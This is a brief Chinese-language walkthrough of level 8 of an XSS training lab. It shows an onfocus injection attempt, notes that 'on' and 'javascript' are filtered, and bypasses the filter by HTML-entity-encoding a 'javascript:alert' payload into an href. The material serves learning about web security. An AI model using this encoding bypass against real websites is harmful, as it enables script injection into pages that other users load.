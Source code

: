 添加的友情链接会到

input标签里。

注入

```
" onfocus=javascript:alert('xss')  "
```

用浏览器开发者工具看 

![](/home/de0xy/Documents/penetration/web/Xss/Xss-Exercises/do0dl3-xss-labs
/images/level8-1.png)

这里

`on`   `javascript` 都被加了个`_`



href已经有了，里面只要写javascript:alert('xss'); 就好了.



这里采用编码绕过

这里用unicode编码

`javascript:alert('xss');`

得到

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;
```



过关
